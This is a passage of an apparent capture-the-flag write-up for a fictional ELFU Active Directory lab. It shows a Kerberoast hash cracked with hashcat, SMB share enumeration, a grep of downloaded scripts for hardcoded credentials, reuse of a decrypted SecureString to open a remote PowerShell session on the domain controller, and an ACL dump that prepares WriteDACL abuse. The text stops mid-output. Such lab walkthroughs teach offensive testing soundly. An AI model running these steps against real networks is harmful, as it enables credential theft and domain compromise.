$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$526de65fc68161292fd4dedf08ba21b7$83952e687024a42333658192781e9c44c1de2b61f4cf92eb6201143c65611906fdfd941cf318a1d7c6a4c3e0b7303f7a4d8d414222edf1e4e19a16d21e9d97556d4964eaa06f9dc9d16d890bd4a16531853b70fc1c2b3d19804bfe2572f528c5ff7d29ecc41a23ad9647cbd905bca79a60e27f4af03f998bd43c742dfb3e527bcec3061d85b446894cd9a99e7eb21e8497ca751ae1c833b4b4511f699e0a1700ecb8e6b905d4fd1de00b7232126dba01f87d98a60d24fb0a451c4f9f01ae30e8ce9062522c84d01bbe222afaa5f9feecc95310507772c5080db0699c9b5d5420937c63b7c309d31804e705b56e4d70d437a635797e14bbf74174eafc6a94b1debdfba0fb9be235a03ef9862b189aefc02a5d71bb3164be20ee81df45421a9c98c93ec0dd14fa7b3198108548721a572fffa0892ddeacad6d3974f88d012e4959c207f2bd29ef369fc42d3daf48bb1027711d1b68180bf351bebf09f6ef55a248c83b01972cf8dc8aa55132545522ab68cfdd948c4ac92c94c4a974405948d01f3ad80b4122f64799e26d0ea4a217968284095bfa301a8e79018fc22743e97f0e987414e626cf4f2629d51f81e42bb97435c126a28f24fa9baf866fd8ba061c26c8d1d839cb652d89a9716424c776098532bd8febc9549fa231ba8a0fa542b4ebd29b4b54d2e8f0880ab9c03684d1d338a726e5f6e7d0a17b04549910d552016dce363319f48bd8d3222d32a7e79eadbb7dd9a80084d894aa021ef3e3e66d16ac21946056332109773eadf72e806f1a0c694fa09988871fea2b99c4795504e4634f9ca05b550604b53edd2428aa1e162b8a657c4b6e4f37a71ca5fbf41ea4ec3894ff2f02f16e24323faf1fc9a87d08d75ba2245c7755839ab716b99392dd39cfb8369f6a483a34f9273ab42e3c72526a1605456c63e39a0c3c66655ee2404b096aa1c355a6e35192899a1b80802ca75c41147809f002bc99ff01764011689a5ca835a8dd35011967c44dd3cafb0b3d1a31faf6f688cec3badbfa362bb316d4769a14f91d411b0f2648debe86e2ce809bc1a8abafb82d32cba7688a19e0377a057fc4338ceec6dc5b59e3bf6dc25e9872124127ec8040d29712d2f60807cc3647d70baa9a222d183b99b546910945211a6fd9c3634e969ea1bd2f7b3ee8079fa949c04e0884cb3de97654761692208496278019df63a1a259675a3f90b2c61e1ece68bf31bf10e9209ce251ec4f20c392728ec2ec836881585c0aa6cdc5ef4e7f956736ebcd1d7cf723e1bbf4b0c20af4d1271dfff3c7d3939e8c0c0deaacc751e85f04535dc70f5741e089d6fab1159f62d1af1a4fdc8303de902700ffc7615c570f3545daa7b9e8cfca9c49ad8c0d2a6edae961ed579715ca3b70fb7eb5b0e93d39227664dd6537536655aef237479e9c333790009b224c94d637b56c745ceac62c53e33d:Snow2021!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_sv...53e33d
Time.Started.....: Thu Dec 23 17:42:24 2021, (4 secs)
Time.Estimated...: Thu Dec 23 17:42:28 2021, (0 secs)
Guess.Base.......: File (elfu_words.txt)
Guess.Mod........: Rules (rules.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   808.0 kH/s (6.73ms) @ Accel:64 Loops:64 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3378432/4315585 (78.28%)
Rejected.........: 0/3378432 (0.00%)
Restore.Point....: 0/83 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:40640-40704 Iteration:0-64
Candidates.#1....: domain -> ceindeers4fears
```

We now have the password for the `elfu_svc` account: `Snow2021!`. Check if there are any share drives that we can access in our network:
```shell
pqsgdggdkl@grades:~$ nmap -PS22,445 -p 445 172.17.0.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-23 23:17 UTC
Nmap scan report for 172.17.0.1
Host is up (0.00043s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds

Nmap scan report for grades.elfu.local (172.17.0.2)
Host is up (0.00037s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds

Nmap scan report for 172.17.0.3
Host is up (0.00032s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap scan report for 172.17.0.4
Host is up (0.00025s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap scan report for 172.17.0.5
Host is up (0.00018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 256 IP addresses (5 hosts up) scanned in 2.85 seconds
```

We can use the `smbclient` to enumerate the share drives:
```shell
pqsgdggdkl@grades:~$ smbclient -U elfu_svc -L \\\\172.17.0.3
Enter WORKGROUP\elfu_svc's password:

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk
	sysvol          Disk
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
pqsgdggdkl@grades:~$ smbclient -U elfu_svc -L \\\\172.17.0.4
Enter WORKGROUP\elfu_svc's password:

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            IPC       IPC Service (Remote IPC)
SMB1 disabled -- no workgroup available
Enter WORKGROUP\elfu_svc's password:

	Sharename       Type      Comment
	---------       ----      -------
	ElfUFiles       Disk
	IPC$            IPC       IPC Service (Remote IPC)
SMB1 disabled -- no workgroup available
```

Our credentials don't get us access to the `research_dep` share, but they do work for `elfu_svc_shr`:

```shell
pqsgdggdkl@grades:~$ smbclient -U elfu_svc \\\\172.17.0.3\\elfu_svc_shr
Enter WORKGROUP\elfu_svc's password:
Try "help" to get a list of possible commands.
smb: \>
```

Download all the files for inspection outside the client:
```shell
smb: \> prompt OFF
smb: \> mget *
```

Use `egrep` to look for passwords in the files (the string to look for is shown in the talk):
```shell
pqsgdggdkl@grades:~$ egrep -nr "ConvertTo-SecureString" . -B2
./Run-ConnectionTestToNavContainer.ps1-75-        $bcAuthContext = Renew-BcAuthContext $bcAuthContext
./Run-ConnectionTestToNavContainer.ps1-76-        $accessToken = $bcAuthContext.accessToken
./Run-ConnectionTestToNavContainer.ps1:77:        $credential = New-Object pscredential -ArgumentList 'freddyk', (ConvertTo-SecureString -String 'P@ssword1' -AsPlainText -Force)
--
./Run-ConnectionTestToNavContainer.ps1-159-        if ($accessToken) {
./Run-ConnectionTestToNavContainer.ps1-160-            $clientServicesCredentialType = "AAD"
./Run-ConnectionTestToNavContainer.ps1:161:            $credential = New-Object pscredential $credential.UserName, (ConvertTo-SecureString -String $accessToken -AsPlainText -Force)
--
./Run-ConnectionTestToNavContainer.ps1-220-            if ($accessToken) {
./Run-ConnectionTestToNavContainer.ps1-221-                $clientServicesCredentialType = "AAD"
./Run-ConnectionTestToNavContainer.ps1:222:                $credential = New-Object pscredential $credential.UserName, (ConvertTo-SecureString -String $accessToken -AsPlainText -Force)
Binary file ./.cache/powershell/ModuleAnalysisCache-F62D67E4 matches
--
./Replace-NavServerContainer.ps1-81-        $settings = Get-Content -path $settingsScript | Where-Object { !$_.Startswith('$Office365Password = ') }
./Replace-NavServerContainer.ps1-82-
./Replace-NavServerContainer.ps1:83:        $secureOffice365Password = ConvertTo-SecureString -String $AadAccessToken -AsPlainText -Force
--
./HelperFunctions.ps1-10-        if (Test-Path "$hostHelperFolder\aes.key") {
./HelperFunctions.ps1-11-            $key = Get-Content -Path "$hostHelperFolder\aes.key"
./HelperFunctions.ps1:12:            New-Object System.Management.Automation.PSCredential ($DefaultUserName, (ConvertTo-SecureString -String $adminPassword -Key $key))
./HelperFunctions.ps1-13-        } else {
./HelperFunctions.ps1:14:            New-Object System.Management.Automation.PSCredential ($DefaultUserName, (ConvertTo-SecureString -String $adminPassword))
--
./Encryption.ps1-161-        {
./Encryption.ps1-162-            $PrivateCertPath = Resolve-Path -Path $PrivateCertPath
./Encryption.ps1:163:            $privateCertSecurePassword = $PrivateCertPassword | ConvertTo-SecureString -AsPlainText -Force
--
./Run-TestsInNavContainer.ps1-147-        $bcAuthContext = Renew-BcAuthContext $bcAuthContext
./Run-TestsInNavContainer.ps1-148-        $accessToken = $bcAuthContext.accessToken
./Run-TestsInNavContainer.ps1:149:        $credential = New-Object pscredential -ArgumentList 'someuser', (ConvertTo-SecureString -String 'S0meP@ssword' -AsPlainText -Force)
--
./Run-TestsInNavContainer.ps1-287-                if ($accessToken) {
./Run-TestsInNavContainer.ps1-288-                    $clientServicesCredentialType = "AAD"
./Run-TestsInNavContainer.ps1:289:                    $credential = New-Object pscredential $credential.UserName, (ConvertTo-SecureString -String $accessToken -AsPlainText -Force)
--
./Run-TestsInNavContainer.ps1-381-                    if ($accessToken) {
./Run-TestsInNavContainer.ps1-382-                        $clientServicesCredentialType = "AAD"
./Run-TestsInNavContainer.ps1:383:                        $credential = New-Object pscredential $credential.UserName, (ConvertTo-SecureString -String $accessToken -AsPlainText -Force)
--
./Publish-PerTenantExtensionApps.ps1-54-        if ($clientId -is [SecureString]) { $clientID = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($clientID)) }
./Publish-PerTenantExtensionApps.ps1-55-        if ($clientId -isnot [String]) { throw "ClientID needs to be a SecureString or a String" }
./Publish-PerTenantExtensionApps.ps1:56:        if ($clientSecret -is [String]) { $clientSecret = ConvertTo-SecureString -String $clientSecret -AsPlainText -Force }
--
./New-NavContainer.ps1-286-                if ($_.Name -eq "Credential" -or $_.Name -eq "DatabaseCredential") {
./New-NavContainer.ps1-287-                    Write-Host "Default parameter $($_.Name)"
./New-NavContainer.ps1:288:                    Set-Variable -Name $_.Name -Value (New-Object pscredential -ArgumentList $_.Value.Username, ($_.Value.Password | ConvertTo-SecureString))
--
./New-NavContainer.ps1-308-                if ($_.Name -eq "Credential" -or $_.Name -eq "DatabaseCredential") {
./New-NavContainer.ps1-309-                    Write-Host "Default parameter $($_.Name)"
./New-NavContainer.ps1:310:                    Set-Variable -Name $_.Name -Value (New-Object pscredential -ArgumentList $_.Value.Username, ($_.Value.Password | ConvertTo-SecureString))
--
./New-NavContainer.ps1-356-    if ($Credential -eq $null -or $credential -eq [System.Management.Automation.PSCredential]::Empty) {
./New-NavContainer.ps1-357-        if ($filesOnly) {
./New-NavContainer.ps1:358:            $credential = New-Object pscredential -ArgumentList 'admin', (ConvertTo-SecureString -String (GetRandomPassword) -AsPlainText -Force)
--
./Renew-LetsEncryptCertificate.ps1-14-  DNS Alias is obsolete - you do not need to specify this
./Renew-LetsEncryptCertificate.ps1-15- .Example
./Renew-LetsEncryptCertificate.ps1:16:  Renew-LetsEncryptCertificate -publicDnsName "host.westeurope.cloudapp.azure.com" -certificatePfxFilename "c:\temp\cert.pfx" -certificatePfxPassword (ConvertTo-SecureString -String "S0mep@ssw0rd!" -AsPlainText -Force)
--
./GetProcessInfo.ps1-1-$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
./GetProcessInfo.ps1:2:$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
--
./Invoke-ScriptInNavContainer.ps1-60-                }
./Invoke-ScriptInNavContainer.ps1-61-                foreach($node in $nodes) {
./Invoke-ScriptInNavContainer.ps1:62:                    $node.InnerText = ConvertFrom-SecureString -SecureString ($node.InnerText | ConvertTo-SecureString) -Key $encryptionkey
--
./Invoke-ScriptInNavContainer.ps1-71-                    '$nsmgr.AddNamespace("ns", "http://schemas.microsoft.com/powershell/2004/04")' | Add-Content $file
./Invoke-ScriptInNavContainer.ps1-72-                    '$nodes = $xml.SelectNodes("//ns:SS", $nsmgr)' | Add-Content $file
./Invoke-ScriptInNavContainer.ps1:73:                    'foreach($node in $nodes) { $node.InnerText = ConvertFrom-SecureString -SecureString ($node.InnerText | ConvertTo-SecureString -Key $encryptionKey) }' | Add-Content $file
--
./Run-AlValidation.ps1-263-    $password = GetRandomPassword
./Run-AlValidation.ps1-264-    Write-Host "admin/$password"
./Run-AlValidation.ps1:265:    $credential= (New-Object pscredential 'admin', (ConvertTo-SecureString -String $password -AsPlainText -Force))
```

The `GetProcessInfo.ps1` script contains a password and is able to connect to the domain controller at 10.128.1.53 using the username `remote_elf`. This script runs the `GetProcess` command on that machine and sends back the result. Can we change this to connect ourselves?

```shell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

We can change the last line to connect to the domain controller instead of just running the `Get-Process` cmdlet:

```shell
PS /home/pqsgdggdkl> cat dc_logon.ps1
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate
```

Running this in `pwsh` gives us a connection to the domain controller:
```shell
pqsgdggdkl@grades:~$ pwsh
PowerShell 7.2.0-rc.1
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/pqsgdggdkl> ./dc_logon.ps1
[10.128.1.53]: PS C:\Users\remote_elf\Documents>
```

Next, we need the AD record for this account to be able to grant ourselves the permissions we need:

```shell
[10.128.1.53]: PS C:\Users\remote_elf\Documents> Get-ADUser ($env:UserName)


DistinguishedName : CN=Remote Elf User Account,CN=Users,DC=elfu,DC=local
Enabled           : True
GivenName         : ElfU
Name              : Remote Elf User Account
ObjectClass       : user
ObjectGUID        : d74a6e5f-1354-4d5a-bfc3-afd4cb45ae3a
SamAccountName    : remote_elf
SID               : S-1-5-21-2037236562-2033616742-1485113978-1106
Surname           : Service
UserPrincipalName : remote_elf@elfu.local
```

Let's also see what groups the `remote_elf` account is in:
```shell
[10.128.1.53]: PS C:\Users\remote_elf\Documents> (Get-ADUser $env:UserName -Properties MemberOf).MemberOf
CN=Remote Management Domain Users,CN=Users,DC=elfu,DC=local
CN=Remote Management Users,CN=Builtin,DC=elfu,DC=local
```

We are looking for a "research" document and the above groups don't seem like they would have access to what we want. What other groups are there?

```shell
[10.128.1.53]: PS C:\Users\remote_elf\Documents> Get-ADGroup -filter * -properties * -searchbase "DC=elfu,DC=local"|Select SAMAccountName, Description

SAMAccountName                          Description
--------------                          -----------
Administrators                          Administrators have complete and unrestricted access to the computer/domain
Users                                   Users are prevented from making accidental or intentional system-wide changes and can r...
Guests                                  Guests have the same access as members of the Users group by default, except for the Gu...
Print Operators                         Members can administer printers installed on domain controllers
Backup Operators                        Backup Operators can override security restrictions for the sole purpose of backing up ...
Replicator                              Supports file replication in a domain
Remote Desktop Users                    Members in this group are granted the right to logon remotely
Network Configuration Operators         Members in this group can have some administrative privileges to manage configuration o...
Performance Monitor Users               Members of this group can access performance counter data locally and remotely
Performance Log Users                   Members of this group may schedule logging of performance counters, enable trace provid...
Distributed COM Users                   Members are allowed to launch, activate and use Distributed COM objects on this machine.
IIS_IUSRS                               Built-in group used by Internet Information Services.
Cryptographic Operators                 Members are authorized to perform cryptographic operations.
Event Log Readers                       Members of this group can read event logs from local machine
Certificate Service DCOM Access         Members of this group are allowed to connect to Certification Authorities in the enterp...
RDS Remote Access Servers               Servers in this group enable users of RemoteApp programs and personal virtual desktops ...
RDS Endpoint Servers                    Servers in this group run virtual machines and host sessions where users RemoteApp prog...
RDS Management Servers                  Servers in this group can perform routine administrative actions on servers running Rem...
Hyper-V Administrators                  Members of this group have complete and unrestricted access to all features of Hyper-V.
Access Control Assistance Operators     Members of this group can remotely query authorization attributes and permissions for r...
Remote Management Users                 Members of this group can access WMI resources over management protocols (such as WS-Ma...
Storage Replica Administrators          Members of this group have complete and unrestricted access to all features of Storage ...
Domain Computers                        All workstations and servers joined to the domain
Domain Controllers                      All domain controllers in the domain
Schema Admins                           Designated administrators of the schema
Enterprise Admins                       Designated administrators of the enterprise
Cert Publishers                         Members of this group are permitted to publish certificates to the directory
Domain Admins                           Designated administrators of the domain
Domain Users                            All domain users
Domain Guests                           All domain guests
Group Policy Creator Owners             Members in this group can modify group policy for the domain
RAS and IAS Servers                     Servers in this group can access remote access properties of users
Server Operators                        Members can administer domain servers
Account Operators                       Members can administer domain user and group accounts
Pre-Windows 2000 Compatible Access      A backward compatibility group which allows read access on all users and groups in the ...
Incoming Forest Trust Builders          Members of this group can create incoming, one-way trusts to this forest
Windows Authorization Access Group      Members of this group have access to the computed tokenGroupsGlobalAndUniversal attribu...
Terminal Server License Servers         Members of this group can update user accounts in Active Directory with information abo...
Allowed RODC Password Replication Group Members in this group can have their passwords replicated to all read-only domain contr...
Denied RODC Password Replication Group  Members in this group cannot have their passwords replicated to any read-only domain co...
Read-only Domain Controllers            Members of this group are Read-Only Domain Controllers in the domain
Enterprise Read-only Domain Controllers Members of this group are Read-Only Domain Controllers in the enterprise
Cloneable Domain Controllers            Members of this group that are domain controllers may be cloned.
Protected Users                         Members of this group are afforded additional protections against authentication securi...
Key Admins                              Members of this group can perform administrative actions on key objects within the domain.
Enterprise Key Admins                   Members of this group can perform administrative actions on key objects within the forest.
DnsAdmins                               DNS Administrators Group
DnsUpdateProxy                          DNS clients who are permitted to perform dynamic updates on behalf of some other client...
RemoteManagementDomainUsers             Members of this group are able to winrm into domain machines. Equivilant to being in th...
ResearchDepartment                      Members of this group have access to all ElfU research resources/shares.
File Shares
```

Hmm... `ResearchDepartment` certainly sounds like what we need. Let's get some more information it. Let's see the DN first:
```shell
[10.128.1.53]: PS C:\Users\remote_elf\Documents> Get-ADGroup -filter * -properties * -searchbase "CN=Users,DC=elfu,DC=local"|Select SAMAccountName, DistinguishedName

SAMAccountName                          DistinguishedName
--------------                          -----------------
Domain Computers                        CN=Domain Computers,CN=Users,DC=elfu,DC=local
Domain Controllers                      CN=Domain Controllers,CN=Users,DC=elfu,DC=local
Schema Admins                           CN=Schema Admins,CN=Users,DC=elfu,DC=local
Enterprise Admins                       CN=Enterprise Admins,CN=Users,DC=elfu,DC=local
Cert Publishers                         CN=Cert Publishers,CN=Users,DC=elfu,DC=local
Domain Admins                           CN=Domain Admins,CN=Users,DC=elfu,DC=local
Domain Users                            CN=Domain Users,CN=Users,DC=elfu,DC=local
Domain Guests                           CN=Domain Guests,CN=Users,DC=elfu,DC=local
Group Policy Creator Owners             CN=Group Policy Creator Owners,CN=Users,DC=elfu,DC=local
RAS and IAS Servers                     CN=RAS and IAS Servers,CN=Users,DC=elfu,DC=local
Allowed RODC Password Replication Group CN=Allowed RODC Password Replication Group,CN=Users,DC=elfu,DC=local
Denied RODC Password Replication Group  CN=Denied RODC Password Replication Group,CN=Users,DC=elfu,DC=local
Read-only Domain Controllers            CN=Read-only Domain Controllers,CN=Users,DC=elfu,DC=local
Enterprise Read-only Domain Controllers CN=Enterprise Read-only Domain Controllers,CN=Users,DC=elfu,DC=local
Cloneable Domain Controllers            CN=Cloneable Domain Controllers,CN=Users,DC=elfu,DC=local
Protected Users                         CN=Protected Users,CN=Users,DC=elfu,DC=local
Key Admins                              CN=Key Admins,CN=Users,DC=elfu,DC=local
Enterprise Key Admins                   CN=Enterprise Key Admins,CN=Users,DC=elfu,DC=local
DnsAdmins                               CN=DnsAdmins,CN=Users,DC=elfu,DC=local
DnsUpdateProxy                          CN=DnsUpdateProxy,CN=Users,DC=elfu,DC=local
RemoteManagementDomainUsers             CN=Remote Management Domain Users,CN=Users,DC=elfu,DC=local
ResearchDepartment                      CN=Research Department,CN=Users,DC=elfu,DC=local
```

Let's now check if the `remote_elf` user has the `WriteDACL` permission that we need in order to permission our account (the one we registered to get):

```shell
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
[10.128.1.53]: PS C:\Users\remote_elf\Documents> $ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])


ActiveDirectoryRights : GenericRead
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SELF
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : GenericRead
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\Authenticated Users
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SYSTEM
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : BUILTIN\Account Operators
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\Domain Admins
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : WriteDacl
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\remote_elf
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : ExtendedRight
InheritanceType       : None
ObjectType            : ab721a55-1e2f-11d0-9819-00aa0040529b
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\Authenticated Users
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty
InheritanceType       : None
ObjectType            : 46a9b11d-60ae-405a-b7e8-ff8a58d456d2
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Windows Authorization Access Group
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 4c164200-20c0-11d0-a768-00aa006e0529
InheritedObjectType   : 4828cc14-1437-45bc-9b07-ad6f015e5f28
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 4c164200-20c0-11d0-a768-00aa006e0529
InheritedObjectType   : bf967aba-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 5f202010-79a5-11d0-9020-00c04fc2d4cf
InheritedObjectType   : 4828cc14-1437-45bc-9b07-ad6f015e5f28
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 5f202010-79a5-11d0-9020-00c04fc2d4cf
InheritedObjectType   : bf967aba-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : bc0ac240-79a9-11d0-9020-00c04fc2d4cf
InheritedObjectType   : 4828cc14-1437-45bc-9b07-ad6f015e5f28
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : bc0ac240-79a9-11d0-9020-00c04fc2d4cf
InheritedObjectType   : bf967aba-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 59ba2f42-79a2-11d0-9020-00c04fc2d3cf
InheritedObjectType   : 4828cc14-1437-45bc-9b07-ad6f015e5f28
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 59ba2f42-79a2-11d0-9020-00c04fc2d3cf
InheritedObjectType   : bf967aba-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 037088f8-0ae1-11d2-b422-00a0c968f939
InheritedObjectType   : 4828cc14-1437-45bc-9b07-ad6f015e5f28
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty
InheritanceType       : Descendents
ObjectType            : 037088f8-0ae1-11d2-b422-00a0c968f939
InheritedObjectType   : bf967aba-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Pre-Windows 2000 Compatible Access
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

ActiveDirectoryRights : ReadProperty, WriteProperty
InheritanceType       : All
ObjectType            : 5b47d60f-6090-40b2-9f37-2a4de88f3063
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : ELFU\Key Admins
IsInherited           : True
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty, WriteProperty
InheritanceType       : All
ObjectType            : 5b47d60f-6090-40b2-9f37-2a4de88f3063
